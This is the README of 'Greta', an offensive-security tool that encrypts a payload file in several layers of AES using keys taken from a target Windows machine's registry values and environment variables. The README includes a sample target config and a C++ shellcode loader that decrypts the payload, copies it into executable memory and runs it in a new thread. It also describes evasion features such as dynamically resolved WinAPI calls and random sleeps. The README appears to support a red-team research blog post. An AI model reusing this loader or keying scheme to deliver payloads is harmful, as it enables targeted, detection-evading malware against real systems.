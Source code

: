 # Greta
This is supporting code for [Greta: Windows Crypto, and Recursive Keying](https://mez0.cc/posts/greta-windows-crypto-environmental-keys/). The _goal_ of this project was to see if there was any validity to recursively encrypting data multiple times with various Environmental Keys. As someone **<u>*terrible*</u>** at crypto, I think there are better ways to encrypt data with environmental components. However, Greta works by taking in a given file (dll, bin, pe, etc)  and a config file. An example config file can be seen here:

```json
{
    "registry": [
    {
        "Hive": "HKEY_LOCAL_MACHINE",
        "Path": "SOFTWARE\\\\MICROSOFT\\\\CRYPTOGRAPHY",
        "Key": "MachineGuid",
        "Value": "fa20973d-6aee-40fa-90ce-b3169646c414"
    },
    {
        "Hive": "HKEY_LOCAL_MACHINE",
        "Path": "SOFTWARE\\\\Microsoft\\\\NET Framework Setup\\\\NDP\\\\v4\\\\Full",
        "Key": "Version",
        "Value": "4.8.03761"
    }],
    "variable": [
    {
        "Variable": "PROCESSOR_REVISION",
        "Value": "2d07"
    },
    {
        "Variable": "USERDNSDOMAIN",
        "Value": "SHELBY.LOCAL"
    },
    {
        "Variable": "PROCESSOR_IDENTIFIER",
        "Value": "Intel64 Family 6 Model 45 Stepping 7, GenuineIntel"
    },
    {
        "Variable": "USERPROFILE",
        "Value": "C:\\Users\\tommy"
    }]
}
```

This data is then parsed, and the `Value` is used as a key for the AES Encryption. Once that is all done, a C++ file is produced which can be included, like so:

```c++
#include "greta.h"
#include <stdio.h>
#include <vector>
#include <windows.h>

int main()
{
	GRETA greta = Greta();

	if (!greta.bStatus)
	{
		return -1;
	}

	LPVOID pAddress = VirtualAlloc(nullptr, greta.payload.size(), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	RtlMoveMemory(pAddress, greta.payload.data(), greta.payload.size());

	HANDLE hThread = CreateThread(nullptr, greta.payload.size(), (LPTHREAD_START_ROUTINE)pAddress, NULL, NULL, NULL);

	WaitForSingleObject(hThread, INFINITE);
	
	return 0;
}
```

For slightly more detail, see [Greta: Windows Crypto, and Recursive Keying](https://mez0.cc/posts/greta-windows-crypto-environmental-keys/). Below is the help for Greta:

```
usage: greta.py [-h] [--debug] [--no-prints] [--output OUTPUT] [--sleep SLEEP] input config

Convert environmental data to multiple layers of AES!

positional arguments:
  input            File to encrypt
  config           Config file to parse

optional arguments:
  -h, --help       show this help message and exit
  --debug          Enable debug prints in output file
  --no-prints      Remove all printfs
  --output OUTPUT  Output file
  --sleep SLEEP    Sleep for random time between 0 and arg (between "substantial ops")
```

All WinAPI functions are dynamically resolved, but the strings for the functions are still within the code. However, none of the strings for the decryption are present. They are all obtained from functions at runtime :dancer:

If this is something you end up using, feel free to help me make my C++ better because, at the moment, you may have a hernia reading the code (or just send a PR!).
